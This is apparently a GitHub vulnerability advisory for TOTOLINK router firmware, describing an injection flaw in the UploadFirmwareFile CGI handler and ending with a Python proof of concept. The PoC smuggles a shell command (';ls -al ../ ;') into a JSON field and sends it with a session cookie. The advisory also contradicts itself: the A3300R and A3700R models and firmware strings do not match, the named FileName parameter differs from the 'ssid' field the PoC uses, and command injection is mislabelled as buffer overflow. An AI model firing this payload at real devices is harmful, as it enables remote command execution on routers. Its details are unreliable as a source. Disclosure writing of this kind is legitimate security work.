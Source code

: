 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Affected version

A3300R V17.0.0cu.557_B20221024

## Vulnerability details

In the A3700R V9.1.2u.5822_B20200513 firmware has a buffer overflow vulnerability in the `UploadFirmwareFile ` function. The `v2` variable receives the `FileName` parameter from a POST request. However, since the user can control the input of `FileName`, the statement `doSystem` can cause a buffer overflow injection vulnerability.

![image-20240722023936258](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722023936258.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"UploadFirmwareFile","ssid":";ls -al ../ ;"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
